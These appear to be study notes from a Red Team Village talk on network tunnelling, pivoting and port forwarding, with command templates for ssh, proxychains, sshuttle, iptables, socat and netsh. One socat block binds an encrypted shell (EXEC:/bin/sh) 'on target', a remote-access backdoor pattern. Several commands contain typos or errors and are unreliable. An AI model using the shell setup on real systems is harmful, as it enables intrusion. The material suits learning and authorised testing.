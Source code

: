 
[NahamCon x Red Team Village](https://www.twitch.tv/videos/1847826441) 

Tunnelling exists to help deal with capability of IPv address usage across the internet and intranets. IPv6 was first drafted in 1998 and to ease the trinsition from IPv4 to IPv6 tunnelling allow disparate segments that needed IPv6 to connect and route traffic when the Internet backbone did not support IPv6.

- Network Segmentation - An architectural approach that divides a network, because:
	- Control between networks based on polices
	- Improves monitoring
	- Boots performance
	- Localises technical issues
	- Enhances security

For defensive operations network segmentation can limit the adversaries reach.

- Tunnelling is used legitimately and illegitimately to:
	- Protect Traffic with encryption
	- Encapsulate Traffic
	- Route data across disparate network segments or protocols


Techniques
- Tunnelling: Moving packets from one network to another
- Pivoting: Moving traffic in a network by using an entry point
- Port Forwarding: Pivoting traffic from local listener to remote port
- Reverse Port forwarding: Pivoting from a remote listener to a local system
- Dynamic Port Forwarding: A socket on the local machine that acts as a SOCKS proxy server
- Redirection: Traffic manipulation technique that is used to route traffic in a specific way


Tools

General Tools
- ssh
- netcat
- foxyproxy
- RPIVOT
- SSHuttle
- OpenSSL
- socat
Nix Tools
- Proxychains
- cURL
- wget
- iptables
Windows Tools
- plink
- Proxfier
- CNTLM
- YARP
- Chisel


Local Port forwarding allows you to forward a port on the local machine to a port on the remote machine - connect to a remote service on a internal network
```bash
ssh -L [local_ip:][local_port]:[target]:[target_port] [user]@[ssh_server]
```

Reverse/Remote Port Forwarding allows you to forward a port on a remote machine to a port on the local machine - give access to a internal service on to a external box
```bash
ssh -R [remote_ip:][remote_port]:[target]:[target_port] [user]@[ssh_server]
```

Dynamic Port Forwarding allows you to create a socket on the local machine to act as a SOCKS proxy to dynamically forward traffic to a dynamic port on the destination machine - tunnel web browser traffic through a SSH server
```bash
ssh -D [local_ip:][local_port] [user]@[ssh_server]

```

Proxychains
```bash
ssh -D [socks_port] [user]@[ssh_server]
# edit /etc/proxychains4.conf 
socks4 127.0.0.1 [socks_port]
proxychains4 $cmd
# curl through the osck proxy
curl -x "http://127.0.0.1:[socks_port]" http://threatsims.com
```

SSHuttle to tunnel all traffic through network 
```bash
# set target subnet to 0.0.0.0/0 or 0/0 to forward all traffic
# use --dns to proxy DNS queries through the server
sshuttle -r [user]@[ssh_server] [target_subnet] -vv
```

OpenSSL - for cryptographic tasks
```bash
# Generate RSA key
openssl genrsa -out $filename.key 1024
# Generate certificate
openssl req -new -key $filename.key -x509 -days 3653 -out $filename.crt
# generate PEM
chmod 600 $filename.key $filename.pem
```

Redirection at scale with Iptables
```bash
# Enable port forwarding in the kernel
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward
iptables -t nat -A PREROUTING -i $interface -p tcp --dport $portA -j REDIRET --to-port $portB
# Redirect from host to another host
iptables  -t nat -A PREROUTING -p tcp -s $srcHostAddress --sport 12345:123456 -d $dstHostAddress -dport 22 1
```

Socat
```bash
# Redirect all Port A connections locally to port B
socat TCP4-LISTEN:$portB,reuseaddr,fork TCP4-LISTEN:$portA,resuseaddr
# Port to remote IP and port
socat TCP-LISTEN:$listenerPort,fork TCP:$redirectIP:$remotePort &

# Socat SSL Tunnel
# Generate Certs
filename=server
openssl genrsa -out $filename.key 1024
openssl req -new -key $filename.key -x509 -days 3653 -out $filename.crt
cat $filename.key $filename.crt > $filename.pem
chmod 600 $filename.key $filename.pem
# On target
socat OPENSSL-LISTEN:443,reuseaddr,certserver.pem,cafile=client.crt EXEC:/bin/sh
# On local machine 
socat STDIO OPENSSL-CONNNECT:localhost:433,cert=client.pem,cafile=server.crt
```

Portforwarding with `netsh`
```powershell
netsh interface portproxy add v4 v4tov4 listenaddress=$localAddress listenport=$listenPort connectAddress=$dstAddress connectionPort=$dstPort
```


## References

[NahamCon x Red Team Village](https://www.twitch.tv/videos/1847826441) 